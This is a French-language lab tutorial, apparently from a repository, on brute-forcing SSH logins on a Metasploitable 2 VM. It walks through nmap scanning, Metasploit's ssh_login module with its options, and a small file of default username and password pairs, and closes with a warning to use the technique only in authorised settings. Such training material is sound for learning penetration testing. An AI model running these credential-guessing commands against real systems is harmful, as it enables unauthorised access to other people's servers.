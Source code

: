 ### Attaque par Force Brute sur un Service SSH avec Metasploit

#### Prérequis
1. **Kali Linux** (comme machine attaquante)
2. **Metasploitable 2** (comme machine cible)
3. **VirtualBox** (ou tout autre logiciel de virtualisation)
4. **Connexion réseau** entre les machines virtuelles

### Étapes de l'attaque par force brute SSH avec Metasploit

#### Étape 1: Configuration des machines virtuelles
1. Lancez Kali Linux et Metasploitable 2 dans VirtualBox.
2. Vérifiez les adresses IP des deux machines. Dans Kali Linux, utilisez la commande suivante :
    ```bash
    ifconfig
    ```
   Notez l'adresse IP de la machine cible (Metasploitable).

#### Explication des commandes
- `ifconfig` : Affiche les informations réseau, y compris l'adresse IP de votre machine.
- `nmap -sS -sV [adresse IP de la cible]` :
  - `-sS` : Effectue un scan SYN, qui est une méthode courante pour détecter les ports ouverts.
  - `-sV` : Identifie les versions des services en cours d'exécution sur les ports ouverts.

#### Étape 2: Scanner les ports ouverts de la machine cible
1. Sur Kali Linux, effectuez un scan Nmap pour identifier les ports ouverts sur la machine cible. Par exemple, si l'adresse IP de la machine cible est `192.168.0.5` :
    ```bash
    nmap -sS -sV 192.168.0.5
    ```
   Cela vous donnera la liste des ports ouverts et des services qui y sont associés. Recherchez spécifiquement le port 22/tcp qui est utilisé par le service SSH.

#### Étape 3: Configuration de Metasploit
1. Ouvrez la console Metasploit :
    ```bash
    msfconsole
    ```
2. Recherchez le module `ssh_login` :
    ```bash
    search ssh_login
    ```
3. Utilisez le module `auxiliary/scanner/ssh/ssh_login` :
    ```bash
    use auxiliary/scanner/ssh/ssh_login
    ```
4. Affichez les options du module :
    ```bash
    show options
    ```

#### Étape 4: Préparation du fichier de mots de passe
1. Créez un fichier de mots de passe nommé `passwords.txt`. Par exemple :
    ```plaintext
    msfadmin msfadmin
    root toor
    user 123456
    admin admin
    ```
   Sauvegardez ce fichier dans un répertoire de votre choix sur la machine Kali Linux, par exemple `/home/user/passwords.txt`.

#### Étape 5: Configuration des options de l'attaque
1. Définissez l'adresse IP de la cible (RHOST) :
    ```bash
    set RHOST 192.168.0.5
    ```
2. Définissez le nombre de threads pour accélérer l'attaque :
    ```bash
    set THREADS 3
    ```
3. Arrêtez l'attaque après un succès :
    ```bash
    set STOP_ON_SUCCESS true
    ```
4. Activez les sorties verbales pour voir les tentatives :
    ```bash
    set VERBOSE true
    ```
5. Fournissez le fichier de mots de passe (USERPASS_FILE) :
    ```bash
    set USERPASS_FILE /home/user/passwords.txt
    ```

#### Étape 6: Lancement de l'attaque
1. Lancez l'attaque en utilisant la commande :
    ```bash
    run
    ```
   Surveillez les tentatives dans le terminal. Si l'attaque réussit, Metasploit retournera le nom d'utilisateur et le mot de passe corrects.

### Exemple de fichier de mots de passe
Voici à nouveau un exemple de fichier de mots de passe (nommé `passwords.txt`) que vous pouvez utiliser :
```plaintext
msfadmin msfadmin
root toor
user 123456
admin admin
```

### Exemple d'adresse IP de cible
- **Machine attaquante (Kali Linux)** : 192.168.0.2
- **Machine cible (Metasploitable)** : 192.168.0.5

Assurez-vous que les adresses IP correspondent à votre configuration réseau. Vous pouvez utiliser des adresses IP dans la même plage pour les machines virtuelles pour simplifier la configuration.

### Conclusion
Ce tutoriel montre comment réaliser une attaque par force brute en utilisant Metasploit sur un service SSH d'une machine Metasploitable. Utilisez ces techniques uniquement dans un environnement contrôlé et à des fins éducatives. Attaquer des systèmes sans autorisation est illégal et contraire à l'éthique.
